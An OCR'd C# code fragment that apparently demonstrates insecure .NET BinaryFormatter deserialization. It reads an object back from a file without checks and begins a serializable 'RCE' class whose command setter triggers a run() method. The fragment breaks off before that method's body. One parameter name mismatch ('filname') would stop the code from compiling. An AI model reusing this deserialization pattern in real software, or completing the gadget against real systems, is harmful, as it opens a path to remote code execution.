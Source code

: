 ```csharp
            {
                BinarySerialization.desertDeserial(filename);
            }
            else
            {
                // Delete old file, if it exists
                BinarySerialization.deleteFile(filename);
                BinarySerialization.desertSerial(filename);
            }
            Console.WriteLine();
            Console.WriteLine("Press Enter Key");
            Console.Read();
        }

        public static void deleteFile(string filname)
        {
            if (File.Exists(filename))
            {
                Console.WriteLine("Deleting old file");
                File.Delete(filename);
            }
        }

        public static void desertDeserial(string filename)
        {
            var formatter = new BinaryFormatter();
            // Open stream for reading
            FileStream stream = File.OpenRead(filename);
            Console.WriteLine("Deserializing string");
            // Deserializing
            var desert = (Desert)formatter.Deserialize(stream);
            stream.Close();
        }

        public static void desertSerial(string filename)
        {
            // Create desert name
            var desert = new Desert();
            desert.name = "Gobi";
            // Persist to file
            FileStream stream = File.Create(filename);
            var formatter = new BinaryFormatter();
            Console.WriteLine("Serializing desert");
            formatter.Serialize(stream, desert);
            stream.Close();
        }
    }

    [Serializable]
    public class RCE : IDeserializationCallback
    {
        private String _cmd;
        public String cmd
        {
            get { return _cmd; }
            set
            {
                _cmd = value;
                run();
            }
        }

        private void run()
```